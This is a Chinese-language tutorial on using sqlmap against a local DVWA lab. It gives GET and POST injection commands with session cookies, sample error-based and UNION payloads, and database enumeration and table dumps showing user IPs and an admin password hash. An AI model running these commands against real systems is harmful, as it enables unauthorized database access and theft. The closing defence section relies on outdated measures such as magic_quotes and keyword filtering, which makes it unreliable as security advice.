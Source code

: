 #SQLmap1使用教程
****

###环境准备
>【环境】： window10
>>1.安装python2.7版本 [www.python.org]
>
>>2.安装SQLmap [http://sqlmap.org/]
>
>>3.设置python环境变量
>
>>4.下载DVWA [github：https://github.com/ethicalhack3r/DVWA]
>
>>5.安装DVWA，安装之前修改`config.inc.php.dist`修改为本地连接数据库
>
>>6.初始化DVMW，默认账号密码 [admin/password]

###查看命令
>sqlmap是一个python写的脚本文件
>
	python .\sqlmap.py  --version。

###GET注入方式——method 1
>1.到DVWA页面将安全级别[DVWA Security]设置为最低[low]
>
>2.到子页面[SQL Injection]随意输入数字生成URL，并复制URL和请求头cookie信息
>
>3.命令如下：其中`-u URL， –url=URL`是目标URL参数，`-–cookie=COOKIE`是HTTP Cookie头参数
>
	python .\sqlmap.py -u "http://127.0.0.1/Test/SQLmap/DVWA-master/vulnerabilities/sqli/?id=23&Submit=Submit#" --cookie "security=low; PHPSESSID=0qgf5586ed8ctvgb9q99mo8m27"

###GET注入方式——method 2
>1.另一种方法是把URL请求头生成一个文件，比如`requestHeader.txt`，信息如下：
>
	GET /Test/SQLmap/DVWA-master/vulnerabilities/sqli/?id=23&Submit=Submit HTTP/1.1
	Host: 127.0.0.1
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Referer: http://127.0.0.1/Test/SQLmap/DVWA-master/vulnerabilities/sqli/?id=2&Submit=Submit
	Cookie: security=low; PHPSESSID=0qgf5586ed8ctvgb9q99mo8m27
	Connection: keep-alive
	Upgrade-Insecure-Requests: 1
>2.命令如下：其中`-r REQUESTFILE`表示从一个文件中载入HTTP请求。
>
	python .\sqlmap.py  -r "../requestHead.txt"

###分析注入结果
>1.代码展示：
>
	$id = $_REQUEST[ 'id' ];
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); 
>2.分析注入结果:
>
	---
	Parameter: id (GET)
	    Type: error-based
	    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	    Payload: id=23' AND (SELECT 9278 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT (ELT(9278=9278,1))),0x7170766a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'piDS'='piDS&Submit=Submit
>	
	    Type: UNION query
	    Title: Generic UNION query (NULL) - 2 columns
	    Payload: id=23' UNION ALL SELECT CONCAT(0x71626a7a71,0x63574b7077415849755042794179506d7a77594157436269616a486e4943775a694d4857414c6246,0x7170766a71),NULL-- fmWn&Submit=Submit
	---
	[16:19:53] 
	[INFO] the back-end DBMS is MySQL
	web server operating system: Windows
	web application technology: Apache 2.4.23, PHP 5.6.27
	back-end DBMS: MySQL >= 5.0

>3-1.结果表示可以通过`error-based`方式注入，即**通过让目标机器的mysql server报错，来获取对应的信息**。

>3-2.结果表示可以通过`UNION query`方式注入，即**通过联合查询来获取数据库额外信息**，比如：
>
	SELECT first_name, last_name FROM users WHERE user_id = 23 
	UNION ALL 
	SELECT first_name,last_name FROM users 
 
>3-3.同时结果输出了操作系统、WEB服务器、数据库类型、数据库版本等信息。

##常用注入命令
>1.扫描并枚举数据库：`python .\sqlmap.py  -r "../requestHead.txt" --dbs`
	
	[11:26:12] [INFO] the back-end DBMS is MySQL
	web server operating system: Windows
	web application technology: Apache 2.4.23, PHP 5.6.27
	back-end DBMS: MySQL >= 5.0
	[11:26:12] [INFO] fetching database names
	available databases [7]:
	[*] blog
	[*] cloudagent
	[*] dvwa
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] test


>2.扫描并枚举数据库表：`python .\sqlmap.py  -r "../requestHead.txt" -D blog --table --dump`

	Database: blog
	Table: user
	[5 entries]
	+----+----------------+-----------+
	| id | ip             | name      |
	+----+----------------+-----------+
	| 2  | 192.168.1.1    | Abby      |
	| 3  | 10.1.1.1       | Abby      |
	| 4  | 172.16.13.99   | Abby      |
	| 6  | 172.16.11.66   | Daisy     |
	| 10 | 220.117.131.12 | Christine |
	+----+----------------+-----------+
	
	Database: blog
	Table: blog_user
	[1 entry]
	+---------+-----------+----------------------------------+
	| user_id | user_name | user_pass                        |
	+---------+-----------+----------------------------------+
	| 1       | admin     | e10adc3949ba59abbe56e057f20f883e |
	+---------+-----------+----------------------------------+


>3.扫描并枚举&打印指定表：`python .\sqlmap.py  -r "../requestHead.txt" -D blog -T user --dump`


###POST注入方式
>1.命令如下：其中`-u URL, –url=URL`是目标URL参数，`-–cookie=COOKIE`是HTTP Cookie头参数，`-–data=DATA`是通过POST发送的数表单据字符串，`-–dbs`指的是扫描目标为数据库，`--batch 和 --smart`分别是"--batch 自动选yes"和"--smart 启发式快速判断"
>	
	python .\sqlmap.py -u "http://127.0.0.1/Test/SQLmap/DVWA-master/vulnerabil
	ities/xss_s/" --cookie="security=low; PHPSESSID=0qgf5586ed8ctvgb9q99mo8m27" --data="txtName=23&mtxMessage=12&btnSign=Sig
	n+Guestbook" --dbs --batch --smart


###SQL注入防范
>1.php.ini自动检测
>>php.ini文件中的一个设置：magic_quotes_gpc。为on时，php应用程序服务器将自动把用户提交的对SQL的查询进行转换，比如吧“’”转化为“\’”，它的作用是在敏感字符前加一个反斜杠“\”，这对防止SQL注入有重大作用。

>2.使用addslashes()
>>作用是在所有外部数据敏感字符’(单引号)、\(反斜杠)、NUL的前面加上反斜杠。

>3.增强前端输入字段检测
>>比如写一个函数，检测字段是否带有`SELECT`,`UPDATE`,`DELETE`,`DROP`类似字符串，有则拒绝查询。